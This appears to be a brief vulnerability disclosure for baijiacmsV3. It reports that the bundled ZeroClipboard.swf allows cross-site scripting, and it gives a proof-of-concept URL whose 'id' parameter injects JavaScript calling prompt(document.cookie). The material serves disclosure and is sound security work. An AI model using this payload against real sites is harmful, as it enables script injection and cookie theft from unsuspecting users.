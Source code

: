 # baijiacms3withxss

baijiacmsV3 :https://github.com/baijiacms/baijiacmsV3

The ZeroClipboard library provides an easy way to copy text to the clipboard using an invisible Adobe Flash movie and a JavaScript interface may allow an attacker to execute arbitrary Javascript code.

poc: http://172.16.100.15/baijiacmsV3-master/themes/Default/__RESOURCE__/script/ZeroClipboard.swf?id=\%22))}catch(e){}if(!self.a)self.a=!prompt(document.cookie)//&width&height
